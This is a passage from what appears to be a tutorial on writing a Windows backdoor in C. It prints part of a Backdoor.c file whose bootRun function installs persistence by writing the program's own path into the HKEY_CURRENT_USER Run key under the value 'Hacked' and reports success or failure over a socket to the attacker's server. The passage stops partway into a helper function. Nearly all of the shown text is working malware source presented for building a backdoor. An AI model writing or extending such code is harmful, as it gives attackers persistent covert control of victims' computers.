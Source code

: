 If the creation of the new value was successful and the program didn't entered
in what is inside of the "_if_" statement. What is left to do, is to close the
registry key, send the success message to our sever and return 0.

```c
RegCloseKey(NewVal);
send(sock, suc, sizeof(suc), 0);
return 0;
```

This is how our **Backdoor.c** file works so far:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <winsock2.h>
#include <windows.h>
#include <winuser.h>
#include <wininet.h>
#include <windowsx.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/types.h>

#define bzero(p, size) (void) memset((p), 0, (size))

int sock;

int bootRun()
{
	char err[128] = "Failed\n";
	char suc[128] = "Created Persistence At : HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\n";
	TCHAR szPath[MAX_PATH];
	DWORD pathLen = 0;

	pathLen = GetModuleFileName(NULL, szPath, MAX_PATH);
	if (pathLen == 0) {
		send(sock, err, sizeof(err), 0);
		return -1;
	}

	HKEY NewVal;

	if (RegOpenKey(HKEY_CURRENT_USER, TEXT("Software\\Microsoft\\Windows\\CurrentVersion\\Run"), &NewVal) != ERROR_SUCCESS) {
		send(sock, err, sizeof(err), 0);
		return -1;
	}
	DWORD pathLenInBytes = pathLen * sizeof(*szPath);
	if (RegSetValueEx(NewVal, TEXT("Hacked"), 0, REG_SZ, (LPBYTE)szPath, pathLenInBytes) != ERROR_SUCCESS) {
		RegCloseKey(NewVal);
		send(sock, err, sizeof(err), 0);
		return -1;
	}
	RegCloseKey(NewVal);
	send(sock, suc, sizeof(suc), 0);
	return 0;
}

char *
str_cut(char str[], int slice_from, int slice_to)
{
```